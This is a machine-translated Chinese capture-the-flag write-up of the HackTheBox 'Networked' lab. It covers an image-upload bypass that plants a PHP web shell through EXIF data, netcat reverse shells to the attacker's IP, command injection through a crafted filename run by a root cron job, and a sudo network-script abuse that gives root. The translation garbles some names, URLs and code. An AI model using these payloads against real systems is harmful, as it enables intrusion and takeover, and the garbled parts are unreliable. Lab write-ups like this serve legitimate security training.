# 黑客盒子——网络化

> 原文：<https://infosecwriteups.com/hackthebox-networked-93ebbd6a70e3?source=collection_archive---------1----------------------->


hackthebox.eu

这是一篇关于我如何从 HacktheBox 解决网络问题的文章。

[Hack the Box](http://hackthebox.eu) 是一个在线平台，你可以在这里练习渗透测试技能。

像往常一样，我试图解释我是如何从机器上理解这些概念的，因为我想真正理解事物是如何工作的。所以请，如果我误解了一个概念，请让我知道。

# 关于盒子:

这个盒子首先通过改变它的 exif 数据来绕过图片上传，这给了你最初的立足点。要获得 user，您必须在检查文件名的 crontab 上注入命令。要获得 root，您必须注入一个用于配置接口的 bash 脚本。

# 侦察:

我首先通过调用命令运行初始 nmap 扫描，将其保存到我的 nmap 目录:

```
Starting Nmap 7.80 ( [https://nmap.org](https://nmap.org) ) at 2019-11-16 00:34 PST
Nmap scan report for 10.10.10.146
Host is up (0.55s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
443/tcp closed httpsService detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 62.19 seconds
```

端口 22 并不有趣，因为它使用的是 OpenSSH 的最新版本。端口 80 运行最新的 Apache httpd 2.4.6。它运行在 CentOS 上，使用 PHP 5.4.16。端口 443 关闭。

## 端口 80

检查端口 80，它提到 FaceMash 和 Tyler&Cameron 都与脸书有关。除此之外，我没有发现任何有用的东西。



然后我运行 dirsearch，其中-u 代表 url，而-e 代表附加到默认单词列表的扩展名:

```
dirsearch.py -u [http://10.10.10.146](http://10.10.10.146) -e php
```



我看到了备份目录和 upload.php。检查备份目录，它包含一个 backup.tar 文件。

## backup.tar

backup.tar 中有 4 个文件:



## photos.php

查看 [/photos.php](http://10.10.10.146/photos.php,) 及其代码:



代码似乎需要 lib.php，并使用目录/var/www/html/uploads 作为上传路径。它还会更改上传文件的文件名。然后我在 lib.php 寻找更有意义的东西。

## lib.php

文件 lib.php 包含了 2 个 php 文件的许多函数。

```
<?phpfunction getnameCheck($filename) {
  $pieces = explode('.',$filename);
  $name= array_shift($pieces);
  $name = str_replace('_','.',$name);
  $ext = implode('.',$pieces);
  #echo "name $name - ext $ext\n";
  return array($name,$ext);
}function getnameUpload($filename) {
  $pieces = explode('.',$filename);
  $name= array_shift($pieces);
  $name = str_replace('_','.',$name);
  $ext = implode('.',$pieces);
  return array($name,$ext);
}function check_ip($prefix,$filename) {
  //echo "prefix: $prefix - fname: $filename<br>\n";
  $ret = true;
  if (!(filter_var($prefix, FILTER_VALIDATE_IP))) {
    $ret = false;
    $msg = "4tt4ck on file ".$filename.": prefix is not a valid ip ";
  } else {
    $msg = $filename;
  }
  return array($ret,$msg);
}function file_mime_type($file) {
  $regexp = '/^([a-z\-]+\/[a-z0-9\-\.\+]+)(;\s.+)?$/';
  if (function_exists('finfo_file')) {
    $finfo = finfo_open(FILEINFO_MIME);
    if (is_resource($finfo)) // It is possible that a FALSE value is returned, if there is no magic MIME database file found on the system
    {
      $mime = [@finfo_file](http://twitter.com/finfo_file)($finfo, $file['tmp_name']);
      finfo_close($finfo);
      if (is_string($mime) && preg_match($regexp, $mime, $matches)) {
        $file_type = $matches[1];
        return $file_type;
      }
    }
  }
  if (function_exists('mime_content_type'))
  {
    $file_type = [@mime_content_type](http://twitter.com/mime_content_type)($file['tmp_name']);
      finfo_close($finfo);
      if (is_string($mime) && preg_match($regexp, $mime, $matches)) {
        $file_type = $matches[1];
        return $file_type;
      }
    }
  }
  if (function_exists('mime_content_type'))
  {
    $file_type = [@mime_content_type](http://twitter.com/mime_content_type)($file['tmp_name']);
    if (strlen($file_type) > 0) // It's possible that mime_content_type() returns FALSE or an empty string
    {
      return $file_type;
    }
  }
  return $file['type'];
}function check_file_type($file) {
  $mime_type = file_mime_type($file);
  if (strpos($mime_type, 'image/') === 0) {
      return true;
  } else {
      return false;
  }  
}function displayform() {
?>
<form action="<?php echo $_SERVER['PHP_SELF']; ?>" method="post" enctype="multipart/form-data">
 <input type="file" name="myFile">
 <br>
<input type="submit" name="submit" value="go!">
</form>
<?php
  exit();
}?>
```

## upload.php

Upload.php 给了我们一个简单的上传页面:



查看其代码:



它检查上传文件的文件大小，只接受以结尾的文件名。jpg，。png，。然后它执行字符串替换，并上传到 UPLOAD_DIR，即/var/www/html/uploads。因此，当我们通过 upload.php 上传文件时，它会转到/uploads。

## 初始立足点:

为了获得立足点，我需要能够上传满足给定条件的文件。我首先尝试从谷歌上传一张简单的图片。我使用了 JPEG 格式的 PHP 徽标:



该文件以我的 IP 地址及其原始扩展名命名。然后我寻找一个使用 php passthru 的 php 脚本。在这里阅读更多关于 passthru 的内容:[https://www . acune tix . com/blog/articles/we b-shell-101-using-PHP-introduction-we b-shell-part-2/](https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/)

## shell.php



shell.php

然后我将脚本嵌入到一个. jpeg 文件中并上传:

```
steghide embed -cf php-logo.jpeg -ef shell.php
```



在尝试调用“cmd”后，我意识到它仍然不起作用，因为它被处理为一个. jpeg 文件。

在寻找用. php 脚本绕过图片上传的方法后，我发现了这个链接:[https://xa Pax . git books . io/security/content/bypass _ image _ upload . html](https://xapax.gitbooks.io/security/content/bypass_image_upload.html)

我可以通过更改其 EXIF 数据，并使用. php.jpg 扩展名对其进行重命名来绕过文件上传过滤:

```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' php.jpgmv php.jpg rce.php.jpg
```

上传文件:



上传成功，但图像不是由 photos.php 渲染的。



然后，我尝试执行命令:

```
10.10.10.146/uploads/10_10_14_72.php.jpg?cmd=id
```



我得到了结果。然后我读取/etc/passwd:



我看到有一个用户**是红色的。**我现在的目标是得到我的反向外壳:

```
10.10.10.146/uploads/10_10_14_72.php.jpg?cmd=nc 10.10.14.72 9001 -e /bin/sh
```



我现在是用户 apache。

## 阿帕奇->古利

我首先生成一个 pty:

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

检查我有读取权限的/home/guly，我发现一个 check_attack.php 和 crontab.guly，它们都属于 root。



## attack.php

读取 attack.log，它调用来自 lib.php 的 getnameCheck 和 check_ip，并删除/tmp/attack.log 文件和/var/www/html/upload/下的文件，并通过邮件将事件的详细信息发送给 guly。



检查 crontab.guly，好像每 3 分钟运行一次 check_attack.php:



检查 check_attack.php，在如何使用 exec 函数方面存在漏洞:

```
exec("nohup /bin/rm -f $path$value >/dev/null 2>&1 &")
```

nohup 命令基本上是“不要挂断”。运行不受挂起影响的命令，在忽略挂起信号的情况下运行给定的命令，以便该命令可以在您注销后继续在后台运行。该行将从 getnameCheck 函数中删除$path = /var/www/html/uploads/和$value 下的文件。

```
function getnameCheck($filename) {
  $pieces = explode('.',$filename);
  $name= array_shift($pieces);
  $name = str_replace('_','.',$name);
  $ext = implode('.',$pieces);
  #echo "name $name - ext $ext\n";
  return array($name,$ext);
}
```

我可以通过创建一个恶意的文件名来滥用 exec 函数，比如 foo<command here=""></command>，其中分号分隔两个命令，并等待 cron 触发。exec 函数调用将如下所示:

```
exec("nohup /bin/rm -f /var/www/html/uploads/10.10.14.72; ping -c 10.10.14.72 >/dev/null 2>&1 &")
```

check_attack.php 脚本将尝试删除名为“10.10.14.72”的文件，然后将 ping 命令传递给 exec。

我首先创建一个名为‘10 . 10 . 14 . 72’的文件；ping -c 1 10.10.14.72 '并使用 tcpdump 检查我是否收到 ping:



我从机器上收到一个信号。然后，我创建了一个名为

```
10.10.14.72; nc -c bash 10.10.14.72 9005
```

其中-c 使用/bin/sh 在连接后执行命令。我设置了我的监听器并手动运行 check_attack.php，只是为了看看它是否工作。



因为我能够获得一个 shell(作为 apache 用户，因为我作为 apache 运行它)，所以我能够验证注入。在等待克朗运行，我得到了我的壳是红色的:



我现在可以读取 user.txt:

```
[guly@networked ~]$ cat user.txt
cat user.txt
**526cfc23...**
```

## 红色->根

因为端口 22 是打开的，所以我尝试通过 ssh 登录。我使用 ssh-keygen 创建了一个 rsa 密钥对，指示-t rsa(尽管如果没有-t，ssh-keygen 默认为 rsa)。然后我创建了一个/。因为没有 ssh 目录，所以创建了一个 authorized_keys 文件并将我的公钥放在那里



我试着 ssh，但它不工作，因为它应该要求的关键密码，但它要求古利的密码。如果所提供的认证不起作用，SSH 就会转到其他认证选项(在这种情况下，私钥被用作 thru -i 认证)。



我使用-v 标志运行 ssh，注意到它使用 ecdsa，而不是 rsa:


然后我创建了一个 ecdsa 密钥对:



现在我可以通过 ssh 登录:



作为我通常列举的一部分，我首先运行 sudo -l:



看到 guly 可以对脚本/usr/local/sbin/changename.sh 进行无密码的 sudo，我检查了文件的内容:

```
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoFregexp="^[a-zA-Z0-9_\ /-]+$"for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done

/sbin/ifup guly0
```

检查脚本，它填充文件/etc/sys config/network-scripts/if CFG-guly，然后调用接口。它使用 for 循环来填充变量 NAME、PROXY_METHOD、BROWSER_ONLY 和 BOOTPROTO，回显变量名，然后从 standard in 中读取输入。然后，它检查输入，然后，对于每个$var，它根据定义的 regexp 进行检查。你可以在这里阅读更多关于/etc/sysconfig/network-scripts 的内容:[https://access . red hat . com/documentation/en-us/red _ hat _ enterprise _ Linux/6/html/deployment _ guide/S1-network scripts-interfaces](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/6/html/deployment_guide/s1-networkscripts-interfaces)。

所以这里的漏洞在于*读取*命令。如果我在第一个字符串后面加一个空格，它就会被执行。我在字符“a”后传递/bin/bash:



我变成了 root，现在可以读 root.txt 了…

```
[root@networked ~]# cat root.txt  
cat root.txt
**0a8ecda83f1d..**
```

这就是我如何从黑盒子中解决网络问题的。

我希望你能从中学到一些东西。感谢阅读我的文章！干杯！🍺

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)